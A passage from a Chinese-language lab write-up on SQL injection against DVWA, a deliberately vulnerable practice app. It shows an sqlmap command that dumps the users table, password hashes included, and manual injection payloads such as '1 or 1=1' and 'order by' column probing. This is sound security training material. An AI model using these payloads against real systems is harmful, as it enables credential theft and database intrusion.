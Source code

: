 `sqlmap.py -u "http://127.0.0.1:8080/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low;PHPSESSID=ob0bq1lqdc8lmevehkdr5e0fu2" --batch -D dvwa -T users -C "user_id,user,password,first_name,last_name,avatar,last_login,failed_login" --dump`

![image-20211101154850324](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950663.png)

其中password字段为md5加密，sqlmap 通过字典爆破得到解密结果：

![image-20211101155029953](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950614.png)

数据结果和手工注入的数据相同。



------

#### 【Medium-手工注入】

##### ①查看源码并判断注入类型

![image-20211101183557407](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950420.png)

![image-20211101184051125](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950426.png)

从源码中可以看出，medium中通过`$_POST`接收POST方式发送的请求，POST请求通过form表单传输参数，并对参数使用了`mysql_real_escape_string`()对特殊符号进行转义（如`\x00`、`\n`、`\r`、`\`、`'`、`"`、`\x1a`），同时前端页面不让用户输入，设置了下拉选择表单，但是这一点可以用burp suit抓包绕过。

![image-20211101191729996](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950667.png)

将抓到的包转发到repeater模块，将id改为`1' or '1' = '1`，报错。（因为`mysql_real_escape_string`对`'`转义。

![image-20211101192033241](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950097.png)

将id改为`1 or 1 = 1`有回显，说明是数字型注入。

![image-20211101192241783](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950499.png)



##### ②用 order by 判断字段数

输入`1 or 1=1 order by 2 #`，正常回显：

![image-20211101192554680](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950681.png)

输入`1 or 1=1 order by 3 #`报错，说明执行的SQL查询语句中只有2个字段。

![image-20211101192613161](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950573.png)



##### ③中间重复简略过程

之后的步骤其实和Low中一样，区别只是从字符型注入改为数字型。

简略地介绍一下过程：

- 确定查询回显位置：
